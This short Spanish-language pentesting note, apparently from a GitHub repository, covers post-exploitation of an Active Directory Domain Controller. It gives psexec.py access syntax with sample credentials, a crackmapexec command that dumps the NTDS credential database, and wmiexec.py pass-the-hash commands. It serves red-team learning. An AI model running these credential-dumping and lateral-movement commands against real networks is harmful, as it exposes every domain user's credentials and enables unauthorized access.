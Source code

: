 # Requisitos
Para ganar acceso al `Domain Controller` debemos disponer de credenciales válidas de un `Administrador del dominio`.

# Realizar Autenticación
Una forma de hacerlo es mediante psexec
```
psexec.py <dominio>/<usuario>:<contraseña>@<ip_DC> cmd.exe
```
Ejemplo:
```
psexec.py wizzz.local/Administrador:Passw0rd@192.168.45.130 cmd.exe
```

# Recomendaciones
Una vez se compromete el DC es recomendable dumpear el `ntds` de todos los equipos para tener acceso a todos los usuarios del Directorio Activo.
```
crackmapexec smb <ip_DC> -u 'Administrator' -p 'P@$$w0rd!' --ntds vss
```
Una vez hecho eso podrías hacer `Pass The Hash` con herramientas como `wmiexec`
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```
